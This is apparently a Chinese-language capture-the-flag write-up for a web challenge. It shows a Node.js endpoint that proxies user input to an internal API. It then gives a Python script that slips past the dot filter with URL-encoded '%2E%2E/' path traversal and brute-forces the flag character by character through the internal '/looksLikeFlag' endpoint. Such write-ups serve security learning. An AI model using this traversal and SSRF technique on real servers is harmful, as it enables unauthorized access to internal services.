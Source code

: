 ```js
app.post("/public_api", (request, response) => {
    const text = request.body.text.toString();

    if (!text.match(/^\S+$/) || text.includes(".")) {
        response.send({ error: "Bad parameter" });
        return;
    }

    const url = `http://127.0.0.1:7414/api/v1/emoji/${text}`;
    http.get(url, result => {
        result.setEncoding("utf-8");
        if (result.statusCode === 200)
            result.on('data', data => response.send(JSON.parse(data)));
        else
            response.send({ error: result.statusCode });
    });
});
```

剛好 private server 又有開一隻 API `/looksLikeFlag`，可以用來 check query 中的字串是不是在 Flag 中有出現。所以我們目標就很明確了，給個簡單的 Charset 去一個一個測試 flag 的組合，就可以得到我們的 Flag 了。

```py
from requests import post, get
from tqdm import tqdm
import string
import json

targetUrl = "http://splitline.tw:5000/public_api"
getPayload = "%2E%2E/looksLikeFlag"

flag = "FLAG{"

charset = string.ascii_letters + string.digits + '+=_\{\}'

while True:
    test = False
    for c in tqdm(charset):

        payload = {"text": f"{getPayload}?flag={flag+c}"}
        print(payload)

        data = post(targetUrl, json=payload)
        
        if "true" in data.text:
            flag+=c
            test = True
            print(flag)
            break

    if not test:
        break

print(flag)
```